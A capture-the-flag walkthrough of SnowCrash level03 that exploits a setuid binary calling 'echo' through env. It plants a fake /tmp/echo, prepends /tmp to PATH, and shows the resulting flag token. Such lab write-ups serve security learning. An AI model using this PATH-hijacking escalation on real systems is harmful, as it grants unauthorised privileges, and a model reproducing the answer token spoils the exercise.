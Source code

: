 In our home directory we can see :

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```
If you look at ./level3 with strings you can see a call to echo :
```
level03@SnowCrash:~$ strings ./level03
/usr/bin/env echo Exploit me
```

We can replace the echo command with a fake version that will provide us with the getflag command. This is possible because ./level03 has the permissions of the flag03 user.
```
`echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03`

```
Finally, run the executable to get the token for level04:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
